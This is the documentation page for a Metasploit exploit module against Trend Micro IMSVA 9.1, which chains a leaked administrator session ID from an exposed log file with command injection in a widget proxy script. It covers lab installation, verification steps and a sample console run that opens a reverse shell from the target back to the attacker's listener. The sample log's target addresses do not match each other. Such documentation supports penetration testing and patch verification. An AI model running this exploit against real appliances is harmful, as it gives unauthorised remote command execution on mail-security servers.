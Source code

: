 ## Vulnerable Application
This module exploits the authentication bypass and command injection vulnerability together. Unauthenticated users can execute a terminal command under the context of the web server user.

The specific flaw exists within the management interface, which listens on TCP port 443 by default. Trend Micro IMSVA product have widget feature which is implemented with PHP. Insecurely configured web server exposes diagnostic.log file, which leads to an extraction of JSESSIONID value from administrator session. Proxy.php files under the mod TMCSS folder takes multiple parameter but the process does not properly validate a user-supplied string before using it to execute a system call. Due to combination of these vulnerabilities, unauthenticated users can execute a terminal command under the context of the web server user.

**Vulnerable Application Installation Steps**

IMSVA is distrubed as an ISO image by Trend Micro.

Following steps are valid on the CentOS 6 x64 bit operating system.

1. Open following URL [http://downloadcenter.trendmicro.com/](http://downloadcenter.trendmicro.com/)
2. Find "InterScan Messaging Security (Virtual Appliance)" and click.
3. At the time of writing this documentation, you must see "IMSVA-9.1-1600-x86-64-r2.iso" next to Download button.
4. Click to the download button and complete installation of ISO.

If you don't see a affected version of IMSVA, you can try to download IMSVA-9.1-1600 directly from following URL.

[http://files.trendmicro.com/products/imsva/9.1/IMSVA-9.1-1600-x86_64-r2.iso](http://files.trendmicro.com/products/imsva/9.1/IMSVA-9.1-1600-x86_64-r2.iso)

**System requirements:**
- Virtualbox or VMware can be used. 
- 4 GB of memory at least.
- 120 GB of disk size at least.

## Verification Steps

A successful check of the exploit will look like this:

- [ ] Start `msfconsole`
- [ ] `use exploit/linux/http/trendmicro_imsva_widget_exec`
- [ ] Set `RHOST`
- [ ] Set `LHOST`
- [ ] Run `check`
- [ ] **Verify** that you are seeing `The target appears to be vulnerable.`
- [ ] Run `exploit`
- [ ] **Verify** that you are seeing `Awesome. JSESSIONID value` in console.
- [ ] **Verify** that you are getting `Session with widget framework successfully initiated` session.

## Scenarios

```
msf > use exploit/linux/http/trendmicro_imsva_widget_exec
msf exploit(trendmicro_imsva_widget_exec) > set RHOST 12.0.0.201
RHOST => 12.0.0.184
msf exploit(trendmicro_imsva_widget_exec) > check
[*] 12.0.0.184:443 The target appears to be vulnerable.
msf exploit(trendmicro_imsva_widget_exec) > exploit 

[*] Started reverse TCP handler on 12.0.0.1:4444 
[*] Extracting JSESSIONID from publicly accessible log file
[+] Awesome. JSESSIONID value = 0567E974AE729E58178C9B513FEBE41E
[*] Initiating session with widget framework
[+] Session with widget framework successfully initiated.
[*] Trigerring command injection vulnerability
[*] Command shell session 1 opened (12.0.0.1:4444 -> 12.0.0.201:44103) at 2017-10-08 18:05:11 +0300

pwd
/opt/trend/imss/UI/adminUI/ROOT/widget

```